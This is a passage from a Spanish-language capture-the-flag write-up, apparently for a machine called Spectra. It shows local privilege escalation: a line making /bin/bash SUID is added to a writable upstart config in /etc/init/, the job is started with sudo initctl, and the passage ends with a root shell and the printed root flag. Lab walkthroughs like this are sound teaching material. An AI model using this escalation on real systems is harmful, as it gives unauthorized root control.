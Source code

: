 Aprovechando los permisos de escritura sobre los archivos de configuración de servicios en /etc/init/ y el permiso para ejecutar /sbin/initctl con sudo, se editó el archivo test1.conf para añadir la línea:
```bash
exec chmod u+s /bin/bash
```

Luego de modificar el archivo de configuración, se inició el servicio con permisos de root. Esto ejecutó la línea maliciosa añadida, aplicando el bit SUID sobre /bin/bash. La verificación posterior mostró que el intérprete ahora tiene permisos elevados (-rwsr-xr-x), lo que permite ejecutar una shell con privilegios de root.
```bash
katie@spectra ~/log $ nano /etc/init/test1.conf

katie@spectra ~/log $ sudo -u root /sbin/initctl start test1
test1 start/running, process 30826
katie@spectra ~/log $ ls -l /bin/bash
-rwsr-xr-x 1 root root 551984 Dec 22  2020 /bin/bash
```

### Captura flag root
Finalmente, ejecutando /bin/bash con el bit SUID habilitado (bash -p), se obtuvo una shell con privilegios root. Desde esta sesión, se accedió al directorio /root y se leyó el archivo root.txt, obteniendo la flag final que confirma la completa explotación y control de la máquina.
```bash
katie@spectra ~/log $ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls
main  nodetest.js  root.txt  script.sh	startup  test.conf
bash-4.3# cat root.txt 
d44519713b889d5e1f9e536d0c6df2fc
bash-4.3# 
```
